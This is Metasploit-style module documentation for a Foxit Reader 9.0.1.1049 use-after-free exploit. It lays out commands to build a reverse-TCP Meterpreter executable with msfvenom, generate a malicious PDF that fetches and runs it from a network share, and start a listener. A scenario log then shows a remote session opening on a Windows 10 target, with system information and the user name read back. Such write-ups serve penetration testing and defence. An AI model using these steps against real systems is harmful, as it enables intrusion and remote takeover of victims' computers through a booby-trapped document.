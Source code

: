 ## Description

Foxit Reader v9.0.1.1049 and earlier are affected by use-after-free and uninitialzed memory vulnerabilities that can be used to gain code execution. This module uses Uint32Array uninitialized memory and text annotation use-after-free vulnerabilities to call WinExec with a share file path to download and execute the specified exe. The module has been tested against Foxit Reader v9.0.1.1049 running on Windows 7 x64 and Windows 10 Pro x64 Build 17134. Later builds of Windows 10 Pro x64 may need insecure logons enabled for the module to work.

## Vulnerable Application

[Foxit Reader v9.0.1.1049](https://www.exploit-db.com/apps/1040d634123948886f664afc95ec0a5e-FoxitReader901_enu_Setup_Prom.exe) and earlier

## Verification Steps

1. `./msfvenom -p windows/meterpreter/reverse_tcp LHOST=<lhost> LPORT=<lport> --arch x86 -f exe /share/path/tmp.exe`
2. `chmod 777 /share/path/tmp.exe`
3. `./msfconsole -qx 'use exploit/windows/fileformat/foxit_reader_uaf ; set exename tmp.exe ; set share <share> ; set lhost <lhost> ; run`
4. `use multi/handler`
5. `set payload windows/meterpreter/reverse_tcp`
6. `set lhost <lhost>`
9. `run -j`
10. Copy pdf over to target. Start Foxit Reader then open pdf from Foxit's Menu.

Note: The target machine running Foxit Reader will need network access to the system hosting the exe.

## Scenarios

### Foxit Reader v9.0.1.1049 running on Windows 10 Pro x64 Build 17134

```
msfdev@simulator:~/git/metasploit-framework
$ ./msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.22.222.197 LPORT=4444 --arch x86 -f exe -o /opt/malicious/tmp.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of exe file: 73802 bytes
Saved as: /opt/malicious/tmp.exe
msfdev@simulator:~/git/metasploit-framework
$ chmod 777 /opt/malicious/tmp.exe 
msfdev@simulator:~/git/metasploit-framework
$ ./msfconsole -qx 'use exploit/windows/fileformat/foxit_reader_uaf ; set exename tmp.exe ; set share tmp ; set lhost 172.22.222.197 ; run '
exename => tmp.exe
share => tmp
lhost => 172.22.222.197
[*] share_path: \\172.22.222.197\tmp\tmp.exe
[+] test.pdf stored at /home/msfdev/.msf4/local/test.pdf
msf5 exploit(windows/fileformat/foxit_reader_uaf) > use multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 172.22.222.197
lhost => 172.22.222.197
msf5 exploit(multi/handler) > set exitonsession false
exitonsession => false
msf5 exploit(multi/handler) > run -j
[*] Exploit running as background job 0.
[*] Started reverse TCP handler on 172.22.222.197:4444 
[*] Sending stage (179779 bytes) to 172.22.222.200
[*] Meterpreter session 1 opened (172.22.222.197:4444 -> 172.22.222.200:49673) at 2018-08-21 07:50:34 -0500

msf5 exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : DESKTOP
OS              : Windows 10 (Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > getuid
Server username: DESKTOP\msfdev
```
